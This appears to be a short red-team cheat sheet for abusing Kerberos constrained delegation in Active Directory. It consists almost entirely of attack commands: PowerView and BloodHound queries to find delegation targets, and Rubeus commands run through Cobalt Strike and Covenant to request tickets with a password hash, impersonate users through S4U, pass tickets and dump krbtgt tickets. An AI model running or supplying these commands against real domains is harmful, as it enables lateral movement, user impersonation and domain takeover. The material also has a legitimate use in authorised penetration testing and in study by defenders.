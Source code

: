## Powerview
```
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
```
## BloodHound
```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

## CobaltStrike --- user to host
```
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dbservice /domain:US.FUNCORP.LOCAL /rc4:6f9e22a64970f32bd0d86fddadc8b8b5
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:[username] /msdsspn:[AllowedToDelegateTo] /altservice:cifs /ptt  (This should allow psexec)
```

## Covenant --- host to host
```
Rubeus dump /service:krbtgt
Rubeus s4u /impersonateuser:[username]@[domain] /msdsspn:[AllowedToDelegateTo] /ticket:[...snip...]
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x239b995 /ticket:[...snip...]
ImpersonateProcess 3420
```

* plain text to NTML
```
Rubeus.exe hash /password:lab
```
